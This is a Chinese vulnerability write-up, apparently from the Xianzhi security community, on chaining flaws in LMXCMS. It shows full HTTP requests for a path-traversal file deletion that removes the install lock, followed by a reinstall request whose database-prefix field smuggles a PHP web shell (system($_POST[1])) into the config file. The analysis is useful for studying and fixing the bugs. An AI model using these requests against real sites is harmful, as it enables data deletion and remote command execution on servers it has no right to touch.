# LMXCMS 任意文件删除到重装系统 getshell 组合拳学习-先知社区

> **来源**: https://xz.aliyun.com/news/17069  
> **文章ID**: 17069

---

# LMXCMS 任意文件删除到重装系统 getshell 组合拳学习

## 前言

这个漏洞的过程可以说是非常非常有意思，思路也非常的特别，下面会详细的分析

免责声明

**这篇文章仅供经验分享，所有敏感信息已做处理。请勿将其当真，未经授权的攻击行为是非法的。使用本文章中的信息所产生的任何后果和损失，由使用者自行承担，作者不负责任。**

## 环境搭建

参考环境搭建说明就ok 了

LMXCMS 安装教程

1、本系统暂不支持 PHP5.6 以上，所以请“尽可能的调低您的 PHP 版本”，避免出现未知错误。

2、直接进入地址（域名/install），进入系统安装程序界面，请注意安装程序的要求和条件，并填写数据库及管理员信息，然后按照步骤安装即可。

3、安装成功以后，切记要删除安装程序，避免二次安装导致数据覆盖，删除的目录有（/install、/c/install）俩个目录，或者在后台首页也可以删除安装目录。

然后配置一下数据库



## 组合拳第一拳任意文件删除

首先进入后台后可以备份数据

```
POST /admin.php?m=Backdb&a=backdbUp HTTP/1.1
Host: lxcml:9685
Content-Length: 80
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://lxcml:9685
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://lxcml:9685/admin.php?m=Backdb&a=index
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=a0097ulik2mkk0s0cmjeeip867
Connection: keep-alive

tabname%5B%5D=lmx_ad&backsize=2048&backdbUp=%E5%A4%87%E4%BB%BD%E6%95%B0%E6%8D%AE
```



然后在恢复数据部分就有我们的数据了



然后我们点击删除

```
GET /admin.php?m=Backdb&a=delbackdb&filename=backdb_lmxcms_2025022521174127649.zip HTTP/1.1
Host: lxcml:9685
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://lxcml:9685/admin.php?m=Backdb&a=backdbInList
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=a0097ulik2mkk0s0cmjeeip867;XDEBUG_SESSION=PHPSTORM
Connection: keep-alive


```

我们看到代码部分来分析

```
public function delbackdb(){
    $filename = trim($_GET['filename']);
    if(!$filename){
        rewrite::js_back('备份文件不存在');
    }
    $this->delOne($filename);
    addlog('删除数据库备份文件');
    rewrite::succ('删除成功');
}
```

可以看到这里直接获取我们的文件名，然后直接删除，并没有限制目录穿越

我们可以构造如下payload

```
GET /admin.php?m=Backdb&a=delbackdb&filename=../../install/install_ok.txt HTTP/1.1
Host: lxcml:9685
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://lxcml:9685/admin.php?m=Backdb&a=backdbInList
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=a0097ulik2mkk0s0cmjeeip867;XDEBUG_SESSION=PHPSTORM
Connection: keep-alive


```



可以看见直接传入了我们的文件名



也是成功删除了我们的文件，后面会解释为什么需要删除这个文件

## 组合拳第二拳突破重装系统限制

首先如果我们已经安装好数据库以后如果我们再次访问下载页面



可以发现报错了，给出了提示，所以我们需要删除这个文件后，然后我们再次尝试

成功来到了安装界面



然后又可以再次安装了

**代码分析**

我们看到代码

```
InstallAction.class.php:7, InstallAction->__construct()
IndexAction.class.php:5, IndexAction->__construct()
1:1, eval()
run.inc.php:72, require()
index.php:9, {main}()
```

每次访问安装界面



就会调用构造函数

然后就会检查文件是否存在



如果存在就会弹出警告不让再次安装

## 组合拳第三部控制文件内容getshell

当然上面的还没有看出来有什么问题

下面先操作一波



可能payload 有点奇怪

```
POST /install/?m=Index&a=index_4 HTTP/1.1
Host: lxcml:9685
Content-Length: 207
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://lxcml:9685
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://lxcml:9685/install/?m=Index&a=index_3&sub2=%E4%B8%8B%E4%B8%80%E6%AD%A5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=a0097ulik2mkk0s0cmjeeip867
Connection: keep-alive

local=localhost&dbname=lxcms&dbuser=root&dbpwd=123456&dbpre=lmx_%27%29%3Bphpinfo%28%29%3B%2F%2F%27&user_name=admin&user_pwd=admin&user_pwd1=admin&user_key=1023151275&sub3=%E5%BC%80%E5%A7%8B%E5%AE%89%E8%A3%85
```

然后就是正常的安装

对了payload 改一下，因为我发现会提醒数据库必须以\_结尾，最后加入一个\_就ok 了

然后我们观察  


成功执行命令

当然我们可以执行命令

不过需要重复上面的操作

然后再到安装数据库那一步

改一下payload

```
POST /install/?m=Index&a=index_4 HTTP/1.1
Host: lxcml:9685
Content-Length: 208
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://lxcml:9685
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://lxcml:9685/install/?m=Index&a=index_3&sub2=%E4%B8%8B%E4%B8%80%E6%AD%A5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=a0097ulik2mkk0s0cmjeeip867;XDEBUG_SESSION=PHPSTORM
Connection: keep-alive

local=localhost&dbname=lxcms&dbuser=root&dbpwd=123456&dbpre=lmx_');system($_POST[1]);//'_&user_name=admin&user_pwd=admin&user_pwd1=admin&user_key=1023151275&sub3=%E5%BC%80%E5%A7%8B%E5%AE%89%E8%A3%85
```



我们看到对应的文件

```
<?php 
/**
 *  【梦想cms】 http://www.lmxcms.com
 * 
 *   数据库配置文件
 */
defined('LMXCMS') or exit();
define('DB_HOST','localhost'); //数据库地址
define('DB_NAME','lxcms');   //数据库名字
define('DB_USER','root');      //数据库用户名
define('DB_PWD','123456');          //数据库密码
define('DB_PORT','');          //mysql端口号
define('DB_CHAR','UTF8');      //数据库编码
define('DB_PRE','lmx_');system($_POST[1]);//'_');       //数据库前缀
?>
```

**代码分析**

根据payload 定位到对应的代码定位到 index\_4 方法

```
public function index_4(){
    if(!isset($_POST['sub3'])) rewrite::js_back ('请按照安装程序步骤安装');
    $postData = $this->checkform(); //验证数据
    $this->ismysql($postData); //验证mysql链接
    //修改缓存缓存文件
    $GLOBALS['public']['user_pwd_key'] = $postData['user_key']; //后台密码密钥
    $GLOBALS['public']['weburl'] = $this->url; //网站相对路径
    f('public/conf',$GLOBALS['public'],true);
    $this->updateConf($postData); //修改配置文件
    $this->index_4_to($postData);//开始安装
}
```

跟进 updateConf 方法

我们的传入



```
private function updateConf($data){
    $configStr = file_get_contents('../inc/db.inc.php');
    $local = explode(':',$data['local']);
    $configStr = preg_replace('/define\(\'DB_HOST\',\'(.*)\'\)/',"define('DB_HOST','".$local[0]."')",$configStr);
    $configStr = preg_replace('/define\(\'DB_NAME\',\'(.*)\'\)/',"define('DB_NAME','".$data['dbname']."')",$configStr);
    $configStr = preg_replace('/define\(\'DB_USER\',\'(.*)\'\)/',"define('DB_USER','".$data['dbuser']."')",$configStr);
    $configStr = preg_replace('/define\(\'DB_PWD\',\'(.*)\'\)/',"define('DB_PWD','".$data['dbpwd']."')",$configStr);
    $configStr = preg_replace('/define\(\'DB_PORT\',\'(.*)\'\)/',"define('DB_PORT','".$local[1]."')",$configStr);
    $configStr = preg_replace('/define\(\'DB_PRE\',\'(.*)\'\)/',"define('DB_PRE','".$data['dbpre']."')",$configStr);
    //保存配置文件
    file_put_contents('../inc/db.inc.php',$configStr);
}
```

这里会写入文件



我们写入的内容

```
<?php 
/**
 *  【梦想cms】 http://www.lmxcms.com
 * 
 *   数据库配置文件
 */
defined('LMXCMS') or exit();
define('DB_HOST','localhost'); //数据库地址
define('DB_NAME','lxcms');   //数据库名字
define('DB_USER','root');      //数据库用户名
define('DB_PWD','123456');          //数据库密码
define('DB_PORT','');          //mysql端口号
define('DB_CHAR','UTF8');      //数据库编码
define('DB_PRE','lmx_');system($_POST[1]);//'_');       //数据库前缀
?>
```

所以导致了命令执行
